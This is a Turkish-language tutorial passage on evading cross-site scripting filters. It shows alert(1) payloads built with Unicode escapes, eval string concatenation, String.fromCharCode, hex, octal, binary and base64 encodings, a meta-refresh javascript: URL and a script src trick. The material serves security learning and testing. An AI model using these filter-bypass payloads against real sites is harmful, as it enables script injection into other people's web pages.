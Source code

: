 ```javascript
<script>a\u006cert(1)</script>
```

payload'ı ile filtrelemenin atlatılmasını sağlamak için Unicode karakterler kullanılabilir. 
JavaScript, herhangi bir ifadeyi string olarak değerlendiren eval() adında bir işlev içermektedir. Uygulamalar, **eval()** işlevinin kullanılmasına izin veriyorsa, XSS payload kullanarak, zafiyet tetiklenebilir. Filtreleme işleminden gizlenmek için Unicode kodlama yapılabilir. Örneğin;

```javascript
<script>eval('a\u006cert(1)')</script>
```

**alert(1)** komutunda, **l** harfinin Unicode karşılığı kullanılarak XSS payload’ı oluşturulabilir. Eval() işlevi engellenirse, bazen işlevin gerçek karakterlerini de kodlayarak zafiyet tetiklenebilir. Ayrıca, farklı bir teknik olarak eval() komutu içerisinde dinamik dize işlemi yapılabilir. Örneğin;

```javascript
<script>eval('al' + 'ert(1)')</script>
```

kod parçasında gösterilebilir. Ayrıca eval() komutuna alternatif olarak **FromCharCode()** komutu kullanılabilir. Örneğin;

```javascript
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>
```

payload'daki sayısal değerler karaktere çevrilir. Sonrasında eval() işlevi içerisinde çalıştırılır. Böylece XSS filtrelemesinin atlatılarak zafiyet tetiklenebilir.

Filtrelemeleri atlatmanın yollarından biri karakter kodlamadır. Kullanılan payload’ın tamamını veya bir kısmını kodlayarak filtrelenme teknikleri atlatılabilir. **alert(1)** dizesinin farklı kodlanma şekilleri aşağıda gösterilmektedir.

```nasm
Hexadecimal: 61 6C 65 72 74 28 31 29

Octal: 141 154 145 162 164 050 061 051

Binary:	01100001 01101100 01100101 01110010 01110100 00101000 00110001 00101001

Base64:	YWxlcnQoMSk= 
```

XSS zafiyetinin tetiklenmesini bir başka yolu, meta etiketinin içerisindeki yönlendirme yapılacak dizin veya URL adresinin atanacağı parametrenin manipüle edilmesidir. 

```javascript
<meta http-equiv="refresh" content="0;url=javascript:alert(1);">
```

Ayrıca dosya türlerinin belirtilmesi için kullanılan **src** parametresinin manipüle edilmesi zafiyetin tetiklenmesine neden olabilir.

```javascript
<script src="payload.jpg">
```

